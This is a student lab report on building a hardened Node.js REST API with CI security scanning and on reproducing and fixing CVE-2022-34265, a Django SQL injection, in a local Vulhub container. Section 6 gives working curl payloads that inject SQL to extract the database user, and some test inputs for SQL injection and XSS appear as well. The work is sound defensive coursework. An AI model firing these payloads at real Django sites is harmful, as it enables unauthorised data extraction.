




# Work 1: Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis

**Name:** CaiZhuorui

**HDU number:** 23320122

**Date:** 2026-10-24

**Public Git repository:** https://github.com/whpzaa/lab1.git

**Last successful pipeline run:** https://github.com/whpzaa/lab1/actions/runs/40097134201

## 1. Purpose

The purpose of this work is to build a functional REST API with practical protections against the OWASP Top 10, integrate automated security checks into CI/CD, reproduce a real CVE in an isolated Vulhub environment, analyze its root cause, apply a fix, and verify the fix with regression testing.

## 2. Implemented API

The API is implemented with Node.js 24, Express 5, and the built-in `node:sqlite` driver. It provides the required functionality:

- `POST /auth/login` checks a login and password and returns a signed JWT.
- `GET /api/data` returns posts only when a valid Bearer token is supplied.
- `POST /api/posts` is the third, self-designed method; it creates a post for the authenticated user.
- `GET /health` is an additional public readiness endpoint.

The educational account is `alice` / `CorrectHorseBatteryStaple!42`. SQLite stores users, bcrypt password hashes, and posts. Two initial posts are inserted on first startup.



The login, rejection of an unauthenticated request, and retrieval of protected data are shown below.



## 3. Security Measures

### SQL injection

All data values use SQLite prepared statements with `?` placeholders. No request value is concatenated into a SQL string. User input is validated before database access. A login attempt with `' OR 1=1 --` returns HTTP 401 instead of authenticating.

### XSS

All user-controlled post fields are escaped with `escape-html` before being returned. For example, `<script>alert(1)</script>` is returned as `&lt;script&gt;alert(1)&lt;/script&gt;`. The API sends JSON, sets `X-Content-Type-Options: nosniff`, and applies a restrictive Content Security Policy through `helmet`.

### Broken authentication

Passwords are stored only as bcrypt hashes. Successful authentication issues an HS256 JWT with `sub`, `iss`, `aud`, and an expiry. Middleware verifies the algorithm, signature, issuer, audience, expiry, and the existence of the token subject. Login is rate limited, and errors do not reveal whether an account exists.

### Additional controls

The API limits JSON bodies to 16 KiB, disables `x-powered-by`, returns generic server errors, and refuses to start without a JWT secret of at least 32 characters.



## 4. Testing and CI/CD

The test suite contains 8 passing tests. It covers successful login, rejection of missing and forged JWTs, SQL injection in the login field, authenticated data access, output escaping for stored XSS payloads, input validation, and the public health endpoint.

The GitHub Actions workflow in `.github/workflows/ci.yml` runs on every push and pull request. It installs the locked dependency tree with `npm ci`, runs the tests, performs SAST with ESLint and `eslint-plugin-security`, performs SCA with `npm audit`, uploads JSON reports as an artifact, and writes a summary into the Actions job summary.

Current local results:

- tests: 8 passed, 0 failed;
- SAST: 0 errors, 0 warnings;
- SCA: 0 vulnerabilities.



The workflow completed successfully after the first push to GitHub. The link to that run is given on the title page.

## 5. Selected CVE and Vulnerable Environment

The selected vulnerability is **CVE-2022-34265**, a SQL injection in Django's `Trunc(kind)` and `Extract(lookup_name)` functions. It is not in the user-provided list of excluded CVEs.

The vulnerable environment is based on Vulhub's `django/CVE-2022-34265` directory and runs Django 4.0.5 with PostgreSQL 13. The demonstration application passes the `date` query parameter directly to `Trunc`:

```python
date = request.GET.get("date", "minute")
WebLog.objects.annotate(time=Trunc("created_time", date))
```

The vulnerable application is exposed at `http://localhost:18000`; port 18000 is used because port 8000 is occupied by a local service.

## 6. Reproduction

A normal request returns an aggregation by minute:

```bash
curl -i "http://localhost:18000/?date=minute"
```

The malformed value `xxxx'xxxx` breaks the generated SQL string:

```bash
curl -i "http://localhost:18000/?date=xxxx%27xxxx"
```

The server returns HTTP 500 and the Django debug page shows:

```text
syntax error at or near "xxxx"
LINE 1: SELECT DATE_TRUNC('xxxx'xxxx', "vuln_weblog"."created_time")...
```

To demonstrate actual data extraction, the following payload closes the first SQL argument, concatenates `current_user`, and reopens the original function call:

```bash
curl -i "http://localhost:18000/?date=minute%27%2C%20%22vuln_weblog%22.%22created_time%22%29%3A%3Atext%20%7C%7C%20%28SELECT%20current_user%29%20%7C%7C%20date_trunc%28%27minute"
```

The response contains the PostgreSQL user `postgres` in the `time` field. The full sequence is automated in `cve/CVE-2022-34265/proof/reproduce.sh`.


## 7. Root-Cause Analysis

The vulnerability is a SQL injection caused by unvalidated input flowing into SQL syntax. In Django 4.0.5, `TruncBase.as_sql()` passes `self.kind` to the database backend without checking it:

```python
sql = connection.ops.datetime_trunc_sql(self.kind, inner_sql, tzname)
```

The PostgreSQL backend uses the kind while constructing `DATE_TRUNC('<kind>', <column>)`. Because the value is embedded into the SQL text and is not restricted to a known set, a single quote closes the string literal and allows arbitrary SQL expressions. The application view selects the value from the request, so the complete flow is: request parameter -> ORM `Trunc(kind)` -> PostgreSQL SQL text -> injection.

This is a framework-level handling error: a value that becomes a SQL lookup/identifier should be validated against a strict allowlist before any SQL is generated. The application also lacked its own validation, so it did not provide defense in depth.

## 8. Applied Fix

The fix has two layers:

1. Django is upgraded from 4.0.5 to 4.0.6. The fixed framework validates `kind` before SQL construction:

```python
if not connection.ops.extract_trunc_lookup_pattern.fullmatch(self.kind):
    raise ValueError("Invalid kind: %s" % self.kind)
```

2. The demo application validates the public `date` parameter against an explicit allowlist and returns HTTP 400 for any other value:

```python
ALLOWED_TRUNC_KINDS = frozenset(
    {"minute", "hour", "day", "week", "month", "quarter", "year"}
)
if date not in ALLOWED_TRUNC_KINDS:
    return JsonResponse({"error": "Invalid date aggregation"}, status=400)
```

The fixed deployment also disables Django DEBUG, so SQL details are not exposed in responses.

## 9. Fix Verification and Regression Testing

The fixed environment is built with `docker-compose.fixed.yml` and `Dockerfile.fixed`, and is exposed at `http://localhost:18001`. Verification is automated in `cve/CVE-2022-34265/proof/verify-fix.sh`.

Results:

| Request | Vulnerable 4.0.5 | Fixed 4.0.6 + allowlist |
| --- | --- | --- |
| `?date=minute` | HTTP 200 | HTTP 200 |
| `?date=xxxx'xxxx` | HTTP 500, SQL error | HTTP 400, JSON error |
| `current_user` injection | HTTP 200, leaks `postgres` | HTTP 400, no leak |

The fixed container reports Django 4.0.6. A normal aggregation request still returns HTTP 200, which demonstrates that the fix does not break the main functionality.


## 10. Submission Checklist

- [x] Secure REST API with login, protected data, and a third endpoint.
- [x] SQLi protection with prepared statements.
- [x] XSS protection with output escaping and security headers.
- [x] JWT authentication and bcrypt password hashing.
- [x] SAST and SCA configured in `.github/workflows/ci.yml`.
- [x] Automated tests and local scan evidence.
- [x] Vulnerable Vulhub environment launched and CVE reproduced.
- [x] Root-cause analysis and fixed environment.
- [x] Fixed behavior and regression testing evidence.
- [x] Public GitHub/GitLab repository link.
- [x] GitHub Actions screenshots and link to the successful pipeline run.
- [x] Title-page fields filled in.

## Appendix: Control Questions

1. **Why is bcrypt preferable to SHA-256 for passwords?** SHA-256 is fast and designed for integrity, so an attacker can test a huge number of guesses cheaply. bcrypt is deliberately slow and salted, making offline guessing much more expensive and preventing identical passwords from producing identical hashes.
2. **What is the difference between SAST and DAST?** SAST analyzes source code or build artifacts without running the application. DAST exercises a running application through its interfaces and observes runtime behavior. This work uses SAST (ESLint security rules) and SCA (`npm audit`) for the API; the CVE reproduction is a controlled manual dynamic test.
3. **How does a JWT work?** The server signs a header and payload with a secret (or private key). The client sends the token, and the server verifies the signature, issuer, audience, and expiry. The payload is encoded, not encrypted, so it must not contain passwords or other secrets.
4. **Why audit third-party dependencies?** A project inherits the vulnerabilities of its libraries. An unpatched dependency can allow remote code execution or data disclosure even when the application's own code is careful. SCA identifies known vulnerable versions and supports timely upgrades.
5. **Why use Docker and Vulhub for CVE practice?** They provide reproducible, isolated, disposable versions of vulnerable software without permanently installing old services on the host. The environment can be rebuilt, compared with a fixed version, and removed cleanly.
6. **What is the difference between a vulnerability and an exploit?** A vulnerability is a flaw or weakness that can cause a security impact. An exploit is the concrete technique or input that abuses the vulnerability. This work reproduced the exploit for CVE-2022-34265 and then removed the underlying vulnerability.
7. **Why run regression tests after a fix?** A security patch can change behavior or break legitimate requests. Regression testing proves that normal functionality still works while malicious input is rejected.
8. **How does CVE reproduction help a security professional?** It develops practical understanding of affected versions, exploitation conditions, detection opportunities, and fixes. This supports vulnerability management, incident response, penetration testing, and secure development decisions.
